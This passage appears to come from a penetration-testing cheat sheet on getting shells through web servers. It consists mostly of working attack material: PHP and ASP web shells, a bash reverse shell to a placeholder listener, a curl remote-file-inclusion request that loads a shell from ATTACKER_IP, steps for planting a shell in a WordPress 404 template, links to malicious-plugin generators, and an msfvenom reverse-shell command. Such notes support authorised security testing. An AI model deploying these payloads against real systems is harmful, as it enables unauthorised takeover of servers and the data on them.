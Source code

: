 ```bash
# Option 1: Reverse Shell via PHP
<?php system($_GET['cmd']); ?>

# Option 2: Reverse Shell via Bash
bash -c "sh -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1"
```

3.  **Perform Remote File Inclusion**:

```bash
curl "http://<TARGET>/index.php?page=http://<ATTACKER_IP>/revshell.php&cmd=ls"
```

# WordPress Plugin for Reverse Shell

If you gain access to an admin WordPress panel, you can navigate to **Theme > Appearance > Editor > 404 Template**. There, you can modify the PHP code to include your malicious web shell. For example, refer to Section for the code that allows you to access the shell at: `http://[IP]/[cms-path]/wp-content/nonexistent?cmd=[command]`.

Alternatively, you can use the payload `multi-os-php-reverse-shell.php`, which automatically triggers a reverse shell when accessed. For a more complex approach, you could use a GitHub tool to create a malicious plugin, upload it, and obtain the reverse shell, as described in the below Sections

## Malicious WordPress Plugin Generators

-   [With Meterpreter](https://github.com/wetw0rk/malicious-wordpress-plugin)
-   [Without Meterpreter](https://github.com/Jsmoreira02/Pwn_Wordpress)

## Reverse Shell Options

-   [Two Reverse Shell Options](https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/)
-   [WordPress Backdoor Exploit](https://pentaroot.com/exploit-wordpress-backdoor-theme-pages/)

### PHP Webshell

```bash
<?php system($_GET['cmd']); ?>
```

### ASP Webshell

```bash
<% eval request('cmd') %>
```

## Non-Meterpreter Payload for Netcat

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT>
```
